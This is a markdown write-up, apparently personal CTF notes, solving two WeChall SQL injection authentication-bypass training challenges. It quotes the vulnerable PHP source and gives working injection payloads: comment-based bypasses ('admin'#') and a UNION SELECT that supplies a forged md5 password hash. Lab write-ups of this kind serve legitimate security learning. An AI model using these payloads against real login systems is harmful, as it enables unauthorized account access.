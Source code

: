 - [Tricks](#tricks)
- [WeChall](#wechall)
    - [MySQL I](#mysql-i)
        - [Challenge](#challenge)
        - [Solution](#solution)
    - [MySQL II](#mysql-ii)
        - [Challenge](#challenge)
        - [Solution](#solution)
- [Useful Links](#useful-links)

# Tricks
* When there is no md5 password check, can use comment in the query like `admin'--` and `admin'#`.
* When there is md5 password check, first use md5 to calculate the hash of a string (password). Then we can use UNION to join another custom defined query result to make the query `SELECT * FROM users WHERE username = '$username'` to `SELECT * FROM users WHERE username = 'aaa' UNION SELECT 01234567890, 'admin', '83832391027a1f2f4d46ef882ff3a47d'`.

# WeChall
## MySQL I
### Challenge
http://www.wechall.net/challenge/training/mysql/auth_bypass1/index.php

### Solution
Looking at the given source code
```
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";

if (false === ($result = $db->queryFirst($query))) {
    echo GWF_HTML::error('Auth1', $chall->lang('err_unknown'), false); # Unknown user
    return false;
}
```
There is no password check. So we will just skip the password part of the query using comment. Try to use comment `--` and pass in `admin'--` to username
```
GDO Error(1064): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'd41d8cd98f00b204e9800998ecf8427e'' at line 1\
SELECT * FROM users WHERE username='admin'--' AND password='d41d8cd98f00b204e9800998ecf8427e'
```
Then try to use PHP comment to skip that part and pass in `admin'#` to username and solve.

## MySQL II
### Challenge
http://www.wechall.net/challenge/training/mysql/auth_bypass2/index.php

### Solution
Looking at the given source code
```
CREATE TABLE IF NOT EXISTS users (
    userid    INT(11)       UNSIGNED AUTO_INCREMENT PRIMARY KEY,
    username  VARCHAR(32)   CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL,
    password  CHAR(32)      CHARACTER SET ascii COLLATE ascii_bin NOT NULL
) ENGINE=myISAM;

$password = md5($password);
$query = "SELECT * FROM users WHERE username='$username'";

if (false === ($result = $db->queryFirst($query))) {
    echo GWF_HTML::error('Auth2', $chall->lang('err_unknown'), false);
    return false;
}

#############################
### This is the new check ###
if ($result['password'] !== $password) {
    echo GWF_HTML::error('Auth2', $chall->lang('err_password'), false);
    return false;
}
```
Here, we login and use md5 result to check the password.\
Looking at the table, 11 digits for userid, less than 32 characters for username and 32 characters for password.
```
[root@5afe7ad7c386 Cryptography]# python -c "import hashlib;print(hashlib.md5('han'.encode('utf-8')).hexdigest())"
83832391027a1f2f4d46ef882ff3a47d
```
We can use `UNION`.\
Use `aaa' UNION SELECT 01234567890, 'admin', '83832391027a1f2f4d46ef882ff3a47d` as username and `han` as password.

# Useful Links
* [SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
